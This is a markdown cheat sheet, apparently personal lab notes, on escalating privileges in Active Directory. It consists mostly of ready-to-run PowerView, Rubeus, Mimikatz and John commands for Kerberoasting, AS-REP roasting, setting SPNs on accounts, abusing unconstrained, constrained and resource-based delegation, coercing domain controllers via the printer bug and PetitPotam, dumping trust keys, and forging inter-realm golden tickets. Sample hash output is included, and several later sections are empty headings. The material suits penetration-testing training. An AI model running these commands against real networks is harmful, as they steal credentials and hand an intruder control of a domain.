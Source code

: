 
## AD Privilege Escalation

- [Kerberoasting](#kerberoasting)
    + [Using `Rubeus.exe`](#using--rubeusexe-)
    + [Using Mimikatz](#using-mimikatz)
- [Targeted Kerberoasting AS-REPs](#targeted-kerberoasting-as-reps)
    + [Enumerating accounts with Kerberos Preauth disabled](#enumerating-accounts-with-kerberos-preauth-disabled)
    + [Disable Kerberos Preauth](#disable-kerberos-preauth)
    + [ASREPRoast : Request Encrypted AS-REP for Offline Brute Force](#asreproast---request-encrypted-as-rep-for-offline-brute-force)
- [Targeted Kerberoasting Set SPN](#targeted-kerberoasting-set-spn)
- [Kerberos Delegation](#kerberos-delegation)
    + [Uncostrained Delegation](#uncostrained-delegation)
    + [Printer Bug](#printer-bug)
  * [Constrained Delegation](#constrained-delegation)

### Kerberoasting
---
```powershell
# Standard AD User. Get Domain Users SPN. Users that are for services
C:> . .\PowerView.ps1
C:> Get-DomainUser -SPN
# We require to use the 'serviceprincipalname'

# Using AD Module
C:> Get-ADUser -Filter {ServicePrincipalName ne ""$null ""} -Properties ServicePrincipalName
```
##### Using `Rubeus.exe`
```powershell
# Get kerberos stats
C:> Rubeus.exe /stats

# Use Rubeus to request a TGS for <user>
C:> Rubeus.exe kerberoast /user:<user> /simple /outfile:hashes.txt

# Accounts supporting only RC4 (Gives errors!)
C:> Rubeus.exe kerberoast /stats /rc4opsec
C:> Rubeus.exe kerberoast /user:<user> /simple /rc4opsec

# Kerberoast all possible accounts
C:> Rubeus.exe kerberoast /outfile:hashes.txt                  

# Crack with John. Adequate file before cracking
C:> john.exe --wordlist=C:\AD\Tools\kerberoast\10k-worst-pass.txt C:\AD\Tools\hashes.txt
```
##### Using Mimikatz
```powershell
C:> Add-Type -AssemblyNAme System.IdentityModel

C:> New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken 
    -ArgumentList "MSSQLSvc/dcorp-mgmt.dollarcorp.moneycorp.local"

# Dump account hashes to a `.kirbi` files: asd@service_asdasd
C:> . .\Invoke-Mimikatz.ps1
C:> Invoke-Mimikatz -Command '"kerberos::list /export"'

# Crack using `tgsrepcrack.py`
C:> python.exe .\tgsrepcrack.py .\<wordlist>.txt .\<exported_file_from_mimikatz>.kirbi
```
### Targeted Kerberoasting AS-REPs
---
##### Enumerating accounts with Kerberos Preauth disabled
```powershell
# PowerView
C:> Get-DomainUser -PreauthNotRequired -Verbose    

# AD Module
C:> Get-ADUser -Filter {DoesNotRequirePreAuth -eq $True} -Properties DoesNotRequirePreAuth
```
##### Disable Kerberos Preauth
```powershell
C:> Set-DomainObject -Identity Control1User -XOR @{useraccountcontrol=4194304} -Verbose
C:> Get-DomainUser -PreauthNotRequired -Verbose    # Check
``` 
##### ASREPRoast 
```powershell
# Request Encrypted AS-REP for Offline Brute Force
C:> Get-ASREPHash -UserName <user> -Verbose

# Enumerate Users with KErberos preauth disabled
C:> Invoke-ASREPRoast -Verbose

# Crack using JTR
C:> john.exe --wordlist=C:\10k-worst-pass.txt C:\asrephashes.txt
```
### Targeted Kerberoasting Set SPN
---
With rights over a user, we can set a SPN to it, and then go for a AS-REPs attack.
```powershell
# Enumerate permissions for RDPUsers
C:> Find-InterestingDomainAcl -ResolveGUIDs | ?{$_.IdentityReferenceName -match "RDPUsers"}

# Check if user already has a SPN
C:> Get-DomainUser -Identity <user> | select serviceprincipalname

# Set SPN for the user
C:> Set-DomainObject -Identity <user> | Set @{serviceprincipalname='ops/whatever1'}

# Kerberoast the user
C:> Rubeus.exe kerberoast /outfile:targetedhashes.txt
C:> john.exe /wordlist=C:\wordlist.txt C:\targetedhashes.txt
```

### Kerberos Delegation
---

#### Uncostrained Delegation
```powershell
# Find Server with Unconstraided Delegation Enabled
C:> . C:\AD\Tools\PowerView.ps1
C:> Get-DomainComputer -Unconstrained | select -ExpandProperty name
<host1>
<host_n>

# Compromise the server and wait uuser to connect to server and then dump tokens on .kirbi files
C:> Invoke-Mimikatz -Command '"sekurlsa::tickets /export"'

# Reuse the exported ticket with PTT
C:> Invoke-Mimikatz -Command '"kerberos::ptt C:<ticket_file_name>.kirbi"'
```
- Requisite for elevation using this technique, is to compromise a user with Admin Rights on the host

##### Printer Bug
```powershell
# Need shell in the server to compromise
# Launch Rubeus listener to capture TGT from DC 
C:> Rubeus.exe monitor /targetuser:<dc-name>$ /interval:5 /nowrap

# From a shell on our host, force DC auth to the server to compromise
C:> MS-RPRN.exe \\<DC_fqdn_name> \\<server_to_compromise_fqdn>
RpcRemoteFindFirstPrinterChangeNotificationEx failed.Error Code 1722 - The RPC server is unavailable.     # This error is OK

# PetiPoam can be user as well. Does the same.
# USefull when no print spooler enabled
C:> PetitPotam.exe dcorp-appsrv dcorp-dc

# At this point, in Rubeus we got the TGT for DC auth.
# Copy the Base64EncodedTicket and use with Rubeus in a elevated shell from our host
C:> Rubeus.exe ptt /ticket:<Base64EncodedTicket>
[*] Action: Import Ticket
[+] Ticket successfully imported!

# At this point we get a ticket for the DC User
# From here, a DC-Sync attack to DC to get krbtgt and also to enterprise DC.
```
#### Constrained Delegation
```powershell
# Get users with Constraied delegation
C:> . .\PowerView.ps1
C:> Get-DomainUser -TrustedToAuth
#    msds-allowedtodelegateto : {CIFS/host.domain.LOCAL, CIFS/host}    <-- Service to abuse
#    useraccountcontrol       : TRUSTED_TO_AUTH_FOR_DELEGATION         <-- When user is trusted 
#    samaccountname            : websvc                                <-- user name

# Request a TGS for user as Domain Administrator for CIFS on host
C:> Rubeus.exe s4u /user:<user> /aes256:<user_aes_hash> /impersonateuser:Administrator 
                   /msdsspn:"CIFS/<host_fqdn>" /ptt
```
```powershell
# Get Computer Accounts with Constrained Delegation
C:> Get-DomainComputer -TrustedToAuth

# Impersonate User Administrator using the host account
#   Using LDAP as the altservice, will allow to do a dcsync to dump krbgtg hash
C:> Rubeus.exe s4u /user:<host_account>$ /aes256:<host_aes_hash> /impersonateuser:Administrator 
                   /msdsspn:time/<host_Fqdn> /altservice:ldap /ptt
```
##### Resource Based RBCD
- Control over an object which has SPN configured
- Write permissions over the target service or object to configure msDS-AllowedToActOnBehalfOfOtherIdentity
```powershell
# Use BloodHound to get Users permissions over hosts for clues

# Then check potential users with following command
C:> Find-InterestingDomainACL | ?{$_.identityreferencename | -match '<user>'
#   ObjectDN                : CN=DCORP-MGMT,OU=Servers,DC=dollarcorp,DC=moneycorp,DC=local
#   ActiveDirectoryRights   : ListChildren, ReadProperty, GenericWrite
#   SecurityIdentifier      : S-1-5-21-1874506631-3219952063-538504511-1109
#   IdentityReferenceName   : ciadmin

# Check for RCBD enabled machnes
C:> Get-DomainRBCD

# Set RCBD on <host> for the "machines"
C:> Set-DomainRBCD -Identity <host> -DelegateFrom 'machine1$|machine2$|machine3$' -Verbose

# Get Keys for machine1, our own machine, as rcbd was configured before
C:> Invoke-Mimikatz -Command '"sekurlsa::ekeys" "exit"'

# Abuse RBCD to access <host> as domain admin
C:> Rubeus.exe s4u /user:machine1$ /aes256:<machine1_hash> /msdsspn:http/<host> /impersonateuser:administrator /ptt
```
### DNSAdmins
---
### Escalate Across Trusts
---
##### Child to Parent 
```powershell
#`sIDHistory` (sids below) is a user attribute designed for scenarios where a user is moved from one domain to another. 
# When a user's domain is changed, they get a new SID and the old SID is added to `sIDHistory`
# AD permissions required. Get a cmd on a DA using rubeus or mimikatz

# Get Domain Trust Key in any of following ways
C:> Invoke-Mimikatz -Command '"lsadump::trust /patch"' -ComputerName <dc-host>
C:> Invoke-Mimikatz -Command '"lsadump::dcsync /user:<domain>\<parent-dc>$
C:> Invoke-Mimikatz -Command '"lsadump::lsa /patch"'

Current domain: DOLLARCORP.MONEYCORP.LOCAL (dcorp / S-1-5-21-1874506631-3219952063-538504511)   <-- Need This

Domain: MONEYCORP.LOCAL (mcorp / S-1-5-21-280534878-1496970234-700767426)           <-- Need This
 [  In ] DOLLARCORP.MONEYCORP.LOCAL -> MONEYCORP.LOCAL
   [[BLAH BLAH]]
        * aes256_hmac       7db7b5f208df1b004304bc02df21dc145147b5f093a97aef79170dd1befdaf30
        * aes128_hmac       d979ad3c525592356d62b641907e46cd
        * rc4_hmac_nt       c4451dea556c1cdf20bd737ce7416d63                       <-- Need This

# Create Inter Realm TGT on attacker machine. '/sids' is the sidhistory
C:> Invoke-Mimikatz -Command '"kerberos::golden /user:Administrator /domain:<domain_fqdn> /sid:<domain_sid> 
                              /sids:<parent_domain_sid>-519 /rc4:<rc4_hmac_nt> /service:krbtgt 
                              /target:<target_domain_fqdn> /ticket:C:\trust_tkt.kirbi"'

# Create a TGS using the created ticket
C:> Rubeus.exe asktgs /ticket:trust_tkt.kirbi /service:cifs/mcorp-dc.moneycorp.local /dc:<target_domain_dc> /ptt

```

##### Across Forest

##### Across Domain Trusts AD CS

### MS SQL Servers

